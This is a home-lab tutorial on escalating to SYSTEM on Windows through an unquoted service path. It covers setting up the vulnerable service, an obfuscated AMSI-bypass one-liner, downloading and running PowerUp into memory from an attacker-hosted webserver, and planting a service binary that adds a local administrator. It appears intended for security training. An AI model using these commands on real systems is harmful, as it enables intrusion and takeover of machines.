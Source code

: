 ```yaml
---
description: >-
  We will create a service with a Unquoted Service Path to escalate privileges
  from a low privileges user account to SYSTEM.
---
```


# Unqouted Service Path

## Configuring

1. Login to `WS01` as the `Administrator` user with password `Welcome01!`.
2. Start PowerShell as administrator and run the following commands to create a service:

* Name = `Service`
* Executable path = `C:\Program Files\bin folder\program\bin x64\Service.exe`
* Start = `auto`

```
sc.exe create "Service" binpath= "C:\Program Files\bin folder\program\bin x64\Service.exe" start= auto
```

![](<../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

3\. Run the following command to create the folders for the service:

```
mkdir "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1) (1) (1).png>)

4\. Run icacls to check the current permissions on the directories with a space in it:

```
icacls.exe "C:\Program Files\bin folder"
icacls.exe "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (15) (2).png>)

Currently the low privileged users can't create any files in the directories with a space. BUILTIN\Users has (RX) privileges. Which is **RX** (read and execute access). For more information about the icacls access rights check out [this SuperUser](https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item) post.

5\. Run icacls to give the `BUILTIN\Users` write permissions on `C:\Program Files\bin folder\program`.

```
icacls.exe "C:\Program Files\bin folder\program" /grant BUILTIN\Users:W
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

6\. Run icacls again the check the permissions on the directory:

```
icacls.exe "C:\Program Files\bin folder\program"
```

![](<../../../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

## Attacking

### How it works

When a service exists whose executable path contains spaces and it isn't enclosed within quotes it could be used to run an executable of our choice. This is because if the service is not enclosed within quotes and it has spaces, it would handle the space as a break and pass the rest of the service path as an argument.

If the filename is a long string of text which contains spaces, and is not enclosed within quotation marks, the filename will be executed in the order from left to right until the space is reached and will append `.exe` at the end of this spaced path. For example, consider we have the following path:

`C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

Windows will try to execute the following:

1. `C:\Program Files\A.exe`
2. `C:\Program Files\A Folder\B.exe`
3. `C:\Program Files\A Folder\B Folder\C.exe`
4. `C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

### Tools

* Icacls.exe
* [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

### Executing the attack

#### Powerup

1. Download PowerUp on your attacking machine and host it on a webserver

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -M http.server 8090
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1) (1) (1).png>)

2\. Login on `WS01` with the user `John` and the password `Welcome2022!.`

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

3\. Open Powershell, execute a amsi bypass such ass the one below and download PowerUp into memory with `iex` and `iwr` (`Invoke-Expression` and `Invoke-WebRequest`)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex (iwr http://192.168.248.2:8090/PowerUp.ps1 -usebasicparsing)
```

![](<../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png>)

4\. Execute `Invoke-AllChecks` to run all the checks from `PowerUp`.

![](<../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1).png>)

5\. The output tells us there is a service with the name `Service` and it has a **unqouted** service path (`C:\Program Files\bin folder\program\bin x64\service.exe`).

6\. To check if we can write a binary in one of the folders check the permissions the folders before the one with a space in it. Since we need to write the binaries `C:\Program Files\bin.exe` or `C:\Program Files\bin folder\program\bin.exe`.

```
icacls.exe "C:\Program Files"
icacls.exe "C:\Program Files\bin folder\program"
```

We have no write permissions in `C:\Program Files`:

![](<../../../.gitbook/assets/image (52) (1) (1) (1) (1) (1) (1) (1) (1).png>)

But we do have write permissions in `C:\Program Files\bin folder\program`.

![](<../../../.gitbook/assets/image (20) (1) (2).png>)

7\. To abuse this run the following command from PowerUp, which will create a executable `bin.exe` in the path `C:\Program Files\bin folder\program` which will add a new local administrator.

```
Write-ServiceBinary -ServiceName 'Service' -ServicePath 'C:\Program Files\bin folder\program\bin.exe' -Username 'privesc' -Password "Welcome2022!" 
```

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1).png>)

8\. Our current user can't start the service, which means we should restart the machine and check if the user `privesc` is created.

![](<../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

9\. Start a new PowerShell session as Administrator and fill in the credentials `privesc:Welcome2022!`.

![](<../../../.gitbook/assets/image (47) (1) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### Cleanup

Remove the user privesc and the binary

```
Remove-Item C:\Program Files\bin folder\program\bin.exe
net user privesc /del
```

## Defending

### Recommendations

* Periodically check for vulnerable services and directory permissions.

### Detection



## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item" %}

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

